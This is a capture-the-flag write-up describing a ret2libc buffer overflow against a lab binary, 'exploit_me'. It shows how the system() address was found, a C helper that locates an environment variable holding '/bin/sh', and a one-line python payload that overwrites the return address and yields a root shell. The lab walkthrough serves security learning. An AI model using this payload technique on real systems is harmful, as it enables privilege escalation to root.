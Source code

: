 ## Path 3 - Buffer overflow using ret2libc strategy
**Refer path 1 on getting password to zaz**

My first step is to locate the address of the `system()` libC function so I created a dummy.c with the contents like below

```clike=
int main()
{ system(); }
```
I then compile and launch the source with GDB  and printed out the `system` symbol information. The address of the `system` function is `0xb7e6b060`
![image](https://hackmd.io/_uploads/Hy3Cp4u46.png)

After that, I created an env variable to store the string argument `/bin/sh` for our `system()` function. I also made a binary to ease the use of getting an address of a environment variable for us. The reason we also needed to provide the program name as argument when predicting the env address is because the program name affects the beginning of the envp pointer.

```clike=
// getenv.c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
        char *ptr;
        if(argc < 3) {
                printf("Usage: %s <environment var> <target program name>\n", argv[0]);
                exit(0);
         }
        ptr = getenv(argv[1]); /* Get env var location. */
        ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* Adjust for program name. */
        printf("%s will be at %p\n", argv[1], ptr);
}
```

```
zaz@BornToSecHackMe:~$ ./getenv BINSH ./exploit_me
BINSH will be at 0xbfffff41
zaz@BornToSecHackMe:~$

```

The way libC function gets called and reads arguments is through the contents in the stack and it looks like this
![image](https://hackmd.io/_uploads/r1hFZBdNp.png)


our BINSH variable is at `0xbfffff41`. After we get this information, we can construct a payload that 
1. Overflows until return address
2. Replace return address with libC system() address `0xb7e6b060`
3. Append any address because we dont need it returning to anywhere `BEEF`
4. Append our first argument `0xbfffff41`

To sum it in a one liner, it looks something like this
```
./exploit_me `python -c 'print "A" * 140 + "\x60\xb0\xe6\xb7" + "BEEF" + "\x41\xff\xff\xbf"'`
```

And we are now root.
![image](https://hackmd.io/_uploads/BkDaHr_46.png)